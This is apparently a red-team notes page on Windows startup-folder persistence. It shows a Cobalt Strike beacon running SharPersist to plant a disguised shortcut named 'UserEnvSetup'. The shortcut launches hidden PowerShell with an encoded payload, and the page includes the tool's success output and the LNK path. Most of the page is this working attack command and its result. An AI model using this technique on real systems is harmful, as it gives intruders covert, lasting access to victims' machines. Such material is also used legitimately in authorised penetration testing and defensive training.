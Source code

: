 # Startup Folder

### Startup Folder

Applications within a users startup folder are launched automatically when the user logs in to their workstation. It's commonly used to set the users home environment, set shortcuts, etc.

### CobaltStrike

We can use the `execute-shellcode` command from an existing beacon in CobaltStrike to establish persistence. We'll also have to utilize a tool like [SharPersist](https://github.com/mandiant/SharPersist) as there are no built-in persistence tools.&#x20;

#### Execute Payload

```
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAo...AGEAIgApACkA" -f "UserEnvSetup" -m add

[*] INFO: Adding startup folder persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoA...bQAvAGEAIgApACkA
[*] INFO: File Name: UserEnvSetup
[+] SUCCESS: Startup folder persistence created
[*] INFO: LNK File located at: C:\Users\bfarmer\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\UserEnvSetup.lnk
[*] INFO: SHA256 Hash of LNK file: B34647F8D8B7CE28C1F0DA3FF444D9B7244C41370B88061472933B2607A169BC
```
